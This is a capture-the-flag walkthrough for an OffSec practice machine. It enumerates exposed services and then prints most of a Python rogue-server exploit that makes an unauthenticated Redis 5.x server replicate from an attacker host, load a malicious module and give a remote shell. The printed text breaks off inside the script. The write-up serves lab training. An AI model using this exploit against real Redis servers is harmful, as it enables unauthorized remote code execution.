


# Wombo

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Easy
Community Rating: Intermediate
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 10
Number of Flags: 1
Lab Description:
This lab demonstrates exploiting a misconfigured Redis key-value store (version 5.0.9) to gain root-level access. 
Learners will use a rogue Redis server technique to execute commands on the target system, highlighting the risks 
of improper service configuration and exposed database ports.
Released: 3 Aug 2020
```

Machine link: [https://portal.offsec.com/machine/wombo-219/overview/details](https://portal.offsec.com/machine/wombo-219/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Wombo]
└─$ export TARGET_IP=192.168.106.69

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Wombo]
└─$ sudo nmap -sC -sV -p- $TARGET_IP                
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-02 11:41 +0200
Nmap scan report for 192.168.106.69
Host is up (0.035s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:80:39:ef:3f:61:a8:d9:e6:fb:04:94:23:c9:ef:a8 (RSA)
|   256 83:f8:6f:50:7a:62:05:aa:15:44:10:f5:4a:c2:f5:a6 (ECDSA)
|_  256 1e:2b:13:30:5c:f1:31:15:b4:e8:f3:d2:c4:e8:05:b5 (ED25519)
53/tcp    closed domain
80/tcp    open   http       nginx 1.10.3
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.10.3
6379/tcp  open   redis      Redis key-value store 5.0.9
8080/tcp  open   http-proxy
|_http-title: Home | NodeBB
| http-robots.txt: 3 disallowed entries 
|_/admin/ /reset/ /compose
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     X-DNS-Prefetch-Control: off
|     X-Frame-Options: SAMEORIGIN
|     X-Download-Options: noopen
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Referrer-Policy: strict-origin-when-cross-origin
|     X-Powered-By: NodeBB
|     set-cookie: _csrf=k9KdUJ3C0_lM-xWzgTvlExMD; Path=/
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 11098
|     ETag: W/"2b5a-17lFx2gGpklIg+xV2JzNQZDMF0U"
|     Vary: Accept-Encoding
|     Date: Thu, 02 Apr 2026 09:43:25 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en-GB" data-dir="ltr" style="direction: ltr;" >
|     <head>
|     <title>Not Found | NodeBB</title>
|     <meta name="viewport" content="width&#x3D;device-width, initial-scale&#x3D;1.0" />
|     <meta name="content-type" content="text/html; charset=UTF-8" />
|     <meta name="apple-mobile-web-app-capable" content="yes" />
|     <meta name="mobile-web-app-capable" content="yes" />
|     <meta property="og:site_n
|   GetRequest: 
|     HTTP/1.1 200 OK
|     X-DNS-Prefetch-Control: off
|     X-Frame-Options: SAMEORIGIN
|     X-Download-Options: noopen
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Referrer-Policy: strict-origin-when-cross-origin
|     X-Powered-By: NodeBB
|     set-cookie: _csrf=OtjEvqyM9jDOrXVYGcnrjgCN; Path=/
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 18181
|     ETag: W/"4705-/ua+/R/ffhmTDiRhpX62JPegq4s"
|     Vary: Accept-Encoding
|     Date: Thu, 02 Apr 2026 09:43:25 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en-GB" data-dir="ltr" style="direction: ltr;" >
|     <head>
|     <title>Home | NodeBB</title>
|     <meta name="viewport" content="width&#x3D;device-width, initial-scale&#x3D;1.0" />
|     <meta name="content-type" content="text/html; charset=UTF-8" />
|     <meta name="apple-mobile-web-app-capable" content="yes" />
|     <meta name="mobile-web-app-capable" content="yes" />
|     <meta property="og:site_name" content
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     X-DNS-Prefetch-Control: off
|     X-Frame-Options: SAMEORIGIN
|     X-Download-Options: noopen
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Referrer-Policy: strict-origin-when-cross-origin
|     X-Powered-By: NodeBB
|     Allow: GET,HEAD
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 8
|     ETag: W/"8-ZRAf8oNBS3Bjb/SU2GYZCmbtmXg"
|     Vary: Accept-Encoding
|     Date: Thu, 02 Apr 2026 09:43:25 GMT
|     Connection: close
|     GET,HEAD
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|_    Connection: close
27017/tcp open   mongodb    MongoDB 4.0.18 4.1.1 - 5.0
| mongodb-info: 
|   MongoDB Build info
|     bits = 64
|     versionArray
|       3 = 0
|       2 = 18
|       1 = 0
|       0 = 4
|     ok = 1.0
|     maxBsonObjectSize = 16777216
|     debug = false
|     javascriptEngine = mozjs
|     sysInfo = deprecated
|     modules
|     storageEngines
|       3 = wiredTiger
|       2 = mmapv1
|       1 = ephemeralForTest
|       0 = devnull
|     gitVersion = 6883bdfb8b8cff32176b1fd176df04da9165fd67
|     buildEnvironment
|       target_arch = x86_64
|       distmod = debian92
|       cxx = /opt/mongodbtoolchain/v2/bin/g++: g++ (GCC) 5.4.0
|       cc = /opt/mongodbtoolchain/v2/bin/gcc: gcc (GCC) 5.4.0
|       ccflags = -fno-omit-frame-pointer -fno-strict-aliasing -ggdb -pthread -Wall -Wsign-compare -Wno-unknown-pragmas -Winvalid-pch -Werror -O2 -Wno-unused-local-typedefs -Wno-unused-function -Wno-deprecated-declarations -Wno-unused-but-set-variable -Wno-missing-braces -fstack-protector-strong -fno-builtin-memcmp
|       distarch = x86_64
|       target_os = linux
|       cxxflags = -Woverloaded-virtual -Wno-maybe-uninitialized -std=c++14
|       linkflags = -pthread -Wl,-z,now -rdynamic -Wl,--fatal-warnings -fstack-protector-strong -fuse-ld=gold -Wl,--build-id -Wl,--hash-style=gnu -Wl,-z,noexecstack -Wl,--warn-execstack -Wl,-z,relro
|     allocator = tcmalloc
|     version = 4.0.18
|     openssl
|       compiled = OpenSSL 1.1.0l  10 Sep 2019
|       running = OpenSSL 1.1.0l  10 Sep 2019
|   Server status
|     ok = 0.0
|     code = 13
|     codeName = Unauthorized
|_    errmsg = command serverStatus requires authentication
| mongodb-databases: 
|   ok = 0.0
|   code = 13
|   codeName = Unauthorized
|_  errmsg = command listDatabases requires authentication
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.98%I=7%D=4/2%Time=69CE3A3D%P=x86_64-pc-linux-gnu%r(Get
SF:Request,3638,"HTTP/1\.1\x20200\x20OK\r\nX-DNS-Prefetch-Control:\x20off\
SF:r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-Download-Options:\x20noopen\r\nX
SF:-Content-Type-Options:\x20nosniff\r\nX-XSS-Protection:\x201;\x20mode=bl
SF:ock\r\nReferrer-Policy:\x20strict-origin-when-cross-origin\r\nX-Powered
SF:-By:\x20NodeBB\r\nset-cookie:\x20_csrf=OtjEvqyM9jDOrXVYGcnrjgCN;\x20Pat
SF:h=/\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\
SF:x2018181\r\nETag:\x20W/\"4705-/ua\+/R/ffhmTDiRhpX62JPegq4s\"\r\nVary:\x
SF:20Accept-Encoding\r\nDate:\x20Thu,\x2002\x20Apr\x202026\x2009:43:25\x20
SF:GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\r\n<html\x20lang=
SF:\"en-GB\"\x20data-dir=\"ltr\"\x20style=\"direction:\x20ltr;\"\x20\x20>\
SF:r\n<head>\r\n\t<title>Home\x20\|\x20NodeBB</title>\r\n\t<meta\x20name=\
SF:"viewport\"\x20content=\"width&#x3D;device-width,\x20initial-scale&#x3D
SF:;1\.0\"\x20/>\n\t<meta\x20name=\"content-type\"\x20content=\"text/html;
SF:\x20charset=UTF-8\"\x20/>\n\t<meta\x20name=\"apple-mobile-web-app-capab
SF:le\"\x20content=\"yes\"\x20/>\n\t<meta\x20name=\"mobile-web-app-capable
SF:\"\x20content=\"yes\"\x20/>\n\t<meta\x20property=\"og:site_name\"\x20co
SF:ntent")%r(HTTPOptions,1BF,"HTTP/1\.1\x20200\x20OK\r\nX-DNS-Prefetch-Con
SF:trol:\x20off\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-Download-Options:\x
SF:20noopen\r\nX-Content-Type-Options:\x20nosniff\r\nX-XSS-Protection:\x20
SF:1;\x20mode=block\r\nReferrer-Policy:\x20strict-origin-when-cross-origin
SF:\r\nX-Powered-By:\x20NodeBB\r\nAllow:\x20GET,HEAD\r\nContent-Type:\x20t
SF:ext/html;\x20charset=utf-8\r\nContent-Length:\x208\r\nETag:\x20W/\"8-ZR
SF:Af8oNBS3Bjb/SU2GYZCmbtmXg\"\r\nVary:\x20Accept-Encoding\r\nDate:\x20Thu
SF:,\x2002\x20Apr\x202026\x2009:43:25\x20GMT\r\nConnection:\x20close\r\n\r
SF:\nGET,HEAD")%r(RTSPRequest,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:nnection:\x20close\r\n\r\n")%r(FourOhFourRequest,15B0,"HTTP/1\.1\x20404
SF:\x20Not\x20Found\r\nX-DNS-Prefetch-Control:\x20off\r\nX-Frame-Options:\
SF:x20SAMEORIGIN\r\nX-Download-Options:\x20noopen\r\nX-Content-Type-Option
SF:s:\x20nosniff\r\nX-XSS-Protection:\x201;\x20mode=block\r\nReferrer-Poli
SF:cy:\x20strict-origin-when-cross-origin\r\nX-Powered-By:\x20NodeBB\r\nse
SF:t-cookie:\x20_csrf=k9KdUJ3C0_lM-xWzgTvlExMD;\x20Path=/\r\nContent-Type:
SF:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2011098\r\nETag:\x2
SF:0W/\"2b5a-17lFx2gGpklIg\+xV2JzNQZDMF0U\"\r\nVary:\x20Accept-Encoding\r\
SF:nDate:\x20Thu,\x2002\x20Apr\x202026\x2009:43:25\x20GMT\r\nConnection:\x
SF:20close\r\n\r\n<!DOCTYPE\x20html>\r\n<html\x20lang=\"en-GB\"\x20data-di
SF:r=\"ltr\"\x20style=\"direction:\x20ltr;\"\x20\x20>\r\n<head>\r\n\t<titl
SF:e>Not\x20Found\x20\|\x20NodeBB</title>\r\n\t<meta\x20name=\"viewport\"\
SF:x20content=\"width&#x3D;device-width,\x20initial-scale&#x3D;1\.0\"\x20/
SF:>\n\t<meta\x20name=\"content-type\"\x20content=\"text/html;\x20charset=
SF:UTF-8\"\x20/>\n\t<meta\x20name=\"apple-mobile-web-app-capable\"\x20cont
SF:ent=\"yes\"\x20/>\n\t<meta\x20name=\"mobile-web-app-capable\"\x20conten
SF:t=\"yes\"\x20/>\n\t<meta\x20property=\"og:site_n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.83 seconds
```

We have five TCP-services running and available:

- OpenSSH 7.4p1 Debian 10+deb9u7 on port 22
- nginx 1.10.3 on port 80
- Redis key-value store 5.0.9 on port 6379
- NodeBB on port 8080
- MongoDB 4.0.18 4.1.1 - 5.0 on port 27017

We also do an UDP-scan of the top 100 ports but find nothing

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Wombo]
└─$ sudo nmap -sU --top-ports 100 -sV -sC $TARGET_IP
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-02 11:50 +0200
Nmap scan report for 192.168.106.69
Host is up (0.035s latency).
All 100 scanned ports on 192.168.106.69 are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1218.69 seconds
```

### Check the web sites

Browsing manually to port 80 shows a default nginx site


On port 8080 we find a NodBB forum:



Scans with `whatweb` gives us the following information

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Wombo]
└─$ whatweb -a3 http://$TARGET_IP
http://192.168.106.69 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.10.3], IP[192.168.106.69], Title[Welcome to nginx!], nginx[1.10.3]

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Wombo]
└─$ whatweb -a3 http://$TARGET_IP:8080
http://192.168.106.69:8080 [200 OK] Cookies[_csrf], Country[RESERVED][ZZ], HTML5, IP[192.168.106.69], JQuery, Open-Graph-Protocol[website], Script[application/json,text/javascript], Title[Home | NodeBB], UncommonHeaders[x-dns-prefetch-control,x-download-options,x-content-type-options,referrer-policy], X-Frame-Options[SAMEORIGIN], X-Powered-By[NodeBB], X-XSS-Protection[1; mode=block]  
```

On the port 8080 site there is a robots.txt file:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Wombo]
└─$ curl http://$TARGET_IP:8080/robots.txt 
User-agent: *
Disallow: /admin/
Disallow: /reset/
Disallow: /compose
Sitemap: http://localhost:4567/sitemap.xml   
```

Browsing to `http://192.168.106.69:8080/admin` redirects us to `http://192.168.106.69:8080/login?local=1` and shows a login page



### Redis enumeration

First we get general information about the Redis database with `nmap`

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Wombo]
└─$ nmap -v -p 6379 --script redis-info $TARGET_IP
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-02 12:07 +0200
NSE: Loaded 1 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 12:07
Completed NSE at 12:07, 0.00s elapsed
Initiating Ping Scan at 12:07
Scanning 192.168.106.69 [4 ports]
Completed Ping Scan at 12:07, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 12:07
Completed Parallel DNS resolution of 1 host. at 12:07, 0.50s elapsed
Initiating SYN Stealth Scan at 12:07
Scanning 192.168.106.69 [1 port]
Discovered open port 6379/tcp on 192.168.106.69
Completed SYN Stealth Scan at 12:07, 0.06s elapsed (1 total ports)
NSE: Script scanning 192.168.106.69.
Initiating NSE at 12:07
Completed NSE at 12:07, 0.21s elapsed
Nmap scan report for 192.168.106.69
Host is up (0.035s latency).

PORT     STATE SERVICE
6379/tcp open  redis
| redis-info: 
|   Version: 5.0.9
|   Operating System: Linux 4.9.0-19-amd64 x86_64
|   Architecture: 64 bits
|   Process ID: 557
|   Used CPU (sys): 0.564000
|   Used CPU (user): 0.596000
|   Connected clients: 1
|   Connected slaves: 0
|   Used memory: 834.22K
|   Role: master
|   Bind addresses: 
|     0.0.0.0
|   Client connections: 
|_    192.168.45.232

NSE: Script Post-scanning.
Initiating NSE at 12:07
Completed NSE at 12:07, 0.00s elapsed
Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.05 seconds
           Raw packets sent: 5 (196B) | Rcvd: 2 (72B)
```

We can also get more information by connecting with the `redis-cli`. Install with `sudo apt install redis-tools` if needed.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Wombo]
└─$ redis-cli -h $TARGET_IP
192.168.106.69:6379> info
# Server
redis_version:5.0.9
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:85c881476bf91b2f
redis_mode:standalone
os:Linux 4.9.0-19-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:6.3.0
process_id:557
run_id:5c52d2ecfd10c2fb4fac0f71da4f69c2721a477c
tcp_port:6379
uptime_in_seconds:12020323
uptime_in_days:139
hz:10
configured_hz:10
lru_clock:13517094
executable:/usr/local/bin/redis-server
config_file:/etc/redis/redis.conf

# Clients
connected_clients:1
client_recent_max_input_buffer:2
client_recent_max_output_buffer:0
blocked_clients:0

# Memory
used_memory:854240
used_memory_human:834.22K
used_memory_rss:5058560
used_memory_rss_human:4.82M
used_memory_peak:854240
used_memory_peak_human:834.22K
used_memory_peak_perc:100.00%
used_memory_overhead:841038
used_memory_startup:791344
used_memory_dataset:13202
used_memory_dataset_perc:20.99%
allocator_allocated:1414336
allocator_active:1806336
allocator_resident:8589312
total_system_memory:1044750336
total_system_memory_human:996.35M
used_memory_lua:37888
used_memory_lua_human:37.00K
used_memory_scripts:0
used_memory_scripts_human:0B
number_of_cached_scripts:0
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
allocator_frag_ratio:1.28
allocator_frag_bytes:392000
allocator_rss_ratio:4.76
allocator_rss_bytes:6782976
rss_overhead_ratio:0.59
rss_overhead_bytes:-3530752
mem_fragmentation_ratio:6.23
mem_fragmentation_bytes:4246320
mem_not_counted_for_evict:0
mem_replication_backlog:0
mem_clients_slaves:0
mem_clients_normal:49694
mem_aof_buffer:0
mem_allocator:jemalloc-5.1.0
active_defrag_running:0
lazyfree_pending_objects:0

# Persistence
loading:0
rdb_changes_since_last_save:0
rdb_bgsave_in_progress:0
rdb_last_save_time:1763104451
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:-1
rdb_current_bgsave_time_sec:-1
rdb_last_cow_size:0
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok
aof_last_cow_size:0

# Stats
total_connections_received:3
total_commands_processed:8
instantaneous_ops_per_sec:0
total_net_input_bytes:205
total_net_output_bytes:18334
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0

# Replication
role:master
connected_slaves:0
master_replid:a2c484d6c88b99ff9782448da3a9c5545a5138ed
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:0.700000
used_cpu_user:0.732000
used_cpu_sys_children:0.000000
used_cpu_user_children:0.000000

# Cluster
cluster_enabled:0

# Keyspace
192.168.106.69:6379> quit

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Wombo]
└─$ 
```

We see nothing under `Keyspace` so the database seems to be empty.

### MongoDB enumeration

We have already some overal information from our initial nmap enumeration

```bash
27017/tcp open   mongodb    MongoDB 4.0.18 4.1.1 - 5.0
| mongodb-info: 
|   MongoDB Build info
|     bits = 64
|     versionArray
|       3 = 0
|       2 = 18
|       1 = 0
|       0 = 4
|     ok = 1.0
|     maxBsonObjectSize = 16777216
|     debug = false
|     javascriptEngine = mozjs
|     sysInfo = deprecated
|     modules
|     storageEngines
|       3 = wiredTiger
|       2 = mmapv1
|       1 = ephemeralForTest
|       0 = devnull
|     gitVersion = 6883bdfb8b8cff32176b1fd176df04da9165fd67
|     buildEnvironment
|       target_arch = x86_64
|       distmod = debian92
|       cxx = /opt/mongodbtoolchain/v2/bin/g++: g++ (GCC) 5.4.0
|       cc = /opt/mongodbtoolchain/v2/bin/gcc: gcc (GCC) 5.4.0
|       ccflags = -fno-omit-frame-pointer -fno-strict-aliasing -ggdb -pthread -Wall -Wsign-compare -Wno-unknown-pragmas -Winvalid-pch -Werror -O2 -Wno-unused-local-typedefs -Wno-unused-function -Wno-deprecated-declarations -Wno-unused-but-set-variable -Wno-missing-braces -fstack-protector-strong -fno-builtin-memcmp
|       distarch = x86_64
|       target_os = linux
|       cxxflags = -Woverloaded-virtual -Wno-maybe-uninitialized -std=c++14
|       linkflags = -pthread -Wl,-z,now -rdynamic -Wl,--fatal-warnings -fstack-protector-strong -fuse-ld=gold -Wl,--build-id -Wl,--hash-style=gnu -Wl,-z,noexecstack -Wl,--warn-execstack -Wl,-z,relro
|     allocator = tcmalloc
|     version = 4.0.18
|     openssl
|       compiled = OpenSSL 1.1.0l  10 Sep 2019
|       running = OpenSSL 1.1.0l  10 Sep 2019
|   Server status
|     ok = 0.0
|     code = 13
|     codeName = Unauthorized
|_    errmsg = command serverStatus requires authentication
| mongodb-databases: 
|   ok = 0.0
|   code = 13
|   codeName = Unauthorized
|_  errmsg = command listDatabases requires authentication
```

which indicates the database require authentication.

Let's verify that with the mongodb client

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Wombo]
└─$ mongo mongodb://$TARGET_IP:27017
MongoDB shell version v7.0.14
connecting to: mongodb://192.168.106.69:27017/?compressors=disabled&gssapiServiceName=mongodb
Error: no such command: 'hello' :
connect@src/mongo/shell/mongo.js:380:17
@(connect):2:6
exception: connect failed
exiting with code 1
```

Install it with `sudo apt install mongodb-clients` if needed.

### Search for available exploit(s)

Let's check for available exploits for redis

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Wombo]
└─$ searchsploit redis 5.0.9                        
Exploits: No Results
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Wombo]
└─$ searchsploit redis      
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Redis - Replication Code Execution (Metasploit)                                                                                                                 | linux/remote/48272.rb
Redis 4.x / 5.x - Unauthenticated Code Execution (Metasploit)                                                                                                   | linux/remote/47195.rb
Redis 5.0 - Denial of Service                                                                                                                                   | linux/dos/44908.txt
Redis 8.0.2 - RCE                                                                                                                                               | linux/remote/52477.py
Redis-cli < 5.0 - Buffer Overflow (PoC)                                                                                                                         | linux/local/44904.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

An additional Google search turns up [this Redis RCE](https://github.com/jas502n/Redis-RCE).

### Try out the exploit

We check the exploit

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Wombo]
└─$ cat redis-rce.py 
#!/usr/bin/env python
# coding:utf-8
import socket
import os
import sys
from time import sleep
import argparse
from six.moves import input

CLRF = "\r\n"
LOGO = R"""
█▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄       █▄▄▄▄ ▄█▄    ▄███▄   
█  ▄▀ █▀   ▀  █  █  ██   █     ▀▄     █  ▄▀ █▀ ▀▄  █▀   ▀  
█▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄       █▀▀▌  █   ▀  ██▄▄    
█  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀        █  █  █▄  ▄▀ █▄   ▄▀ 
  █   ▀███▀   ███▀   ▐                  █   ▀███▀  ▀███▀   
 ▀                                     ▀                   

"""

def mk_cmd_arr(arr):
    cmd = ""
    cmd += "*" + str(len(arr))
    for arg in arr:
        cmd += CLRF + "$" + str(len(arg))
        cmd += CLRF + arg
    cmd += "\r\n"
    return cmd


def mk_cmd(raw_cmd):
    return mk_cmd_arr(raw_cmd.split(" "))


def din(sock, cnt):
    msg = sock.recv(cnt)
    if verbose:
        if len(msg) < 300:
            print("\033[1;34;40m[->]\033[0m {}".format(msg))
        else:
            print("\033[1;34;40m[->]\033[0m {}......{}".format(msg[:80], msg[-80:]))
    try:
        result = msg.decode()
    except:
        result = msg
    return result


def dout(sock, msg):
    if type(msg) != bytes:
        msg = msg.encode()
    sock.send(msg)
    if verbose:
        if sys.version_info < (3, 0):
            msg = repr(msg)
        if len(msg) < 300:
            print("\033[1;32;40m[<-]\033[0m {}".format(msg))
        else:
            print("\033[1;32;40m[<-]\033[0m {}......{}".format(msg[:80], msg[-80:]))


def decode_shell_result(s):
    return "\n".join(s.split("\r\n")[1:-1])


class Remote:
    def __init__(self, rhost, rport):
        self._host = rhost
        self._port = rport
        self._sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self._sock.connect((self._host, self._port))

    def send(self, msg):
        dout(self._sock, msg)

    def recv(self, cnt=65535):
        return din(self._sock, cnt)

    def do(self, cmd):
        self.send(mk_cmd(cmd))
        buf = self.recv()
        return buf

    def close(self):
        self._sock.close()

    def shell_cmd(self, cmd):
        self.send(mk_cmd_arr(['system.exec', "{}".format(cmd)]))
        buf = self.recv()
        return buf


class RogueServer:
    def __init__(self, lhost, lport):
        self._host = lhost
        self._port = lport
        self._sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self._sock.bind((self._host, self._port))
        self._sock.listen(10)

    def handle(self, data):
        resp = ""
        phase = 0
        if data.find("PING") > -1:
            resp = "+PONG" + CLRF
            phase = 1
        elif data.find("REPLCONF") > -1:
            resp = "+OK" + CLRF
            phase = 2
        elif data.find("PSYNC") > -1 or data.find("SYNC") > -1:
            resp = "+FULLRESYNC " + "Z" * 40 + " 0" + CLRF
            resp += "$" + str(len(payload)) + CLRF
            resp = resp.encode()
            resp += payload + CLRF.encode()
            phase = 3
        return resp, phase

    def close(self):
        self._sock.close()

    def exp(self):
        try:
            cli, addr = self._sock.accept()
            back = self._sock.getsockname()
            print("\033[92m[+]\033[0m Accepted connection from {}:{}".format(back[0], back[1]))
            self._sock.settimeout(10)
            while True:
                data = din(cli, 1024)
                if len(data) == 0:
                    break
                resp, phase = self.handle(data)
                dout(cli, resp)
                if phase == 3:
                    break
        except Exception as e:
            print("\033[1;31;m[-]\033[0m Time out, Please check your local address.")
            exit()

def interact(remote):
    print("\033[92m[+]\033[0m Received backconnect, use exit to exit...")
    try:
        while True:
            cmd = input("$ ")
            cmd = cmd.strip()
            if cmd == "exit":
                return
            r = remote.shell_cmd(cmd)
            for l in decode_shell_result(r).split("\n"):
                if l:
                    print(l)
    except KeyboardInterrupt:
        return


def runserver(rhost, rport, lhost, lport):
    print("[*] Listening on {}:{}".format(lhost, lport))
    # expolit
    expfile = os.path.basename(filename)
    remote = Remote(rhost, rport)
    if auth:
        check = remote.do("AUTH {}".format(auth))
        if "invalid password" in check:
            print("\033[1;31;m[-]\033[0m Wrong password !")
            return
    else:
        info = remote.do("INFO")
        if "NOAUTH" in info:
            print("\033[1;31;m[-]\033[0m Need password.")
            return
    print("[*] Sending SLAVEOF command to server")
    remote.do("SLAVEOF {} {}".format(lhost, lport))
    back = remote._sock.getsockname()
    print("\033[92m[+]\033[0m Accepted connection from {}:{}".format(back[0], back[1]))
    print("[*] Setting filename")
    remote.do("CONFIG SET dir /tmp/")
    remote.do("CONFIG SET dbfilename {}".format(expfile))
    sleep(2)
    rogue = RogueServer(lhost, lport)
    print("[*] Tring to run payload")
    rogue.exp()
    sleep(2)
    remote.do("MODULE LOAD /tmp/{}".format(expfile))
    remote.do("SLAVEOF NO ONE")
    print("[*] Closing rogue server...")
    rogue.close()
    # Operations here
    interact(remote)

    # clean up
    print("[*] Clean up..")
    remote.do("CONFIG SET dbfilename dump.rdb")
    remote.shell_cmd("rm /tmp/{}".format(expfile))
    remote.do("MODULE UNLOAD system")
    remote.close()


def main():
    parser = argparse.ArgumentParser(description='Redis 4.x/5.x RCE with RedisModules')
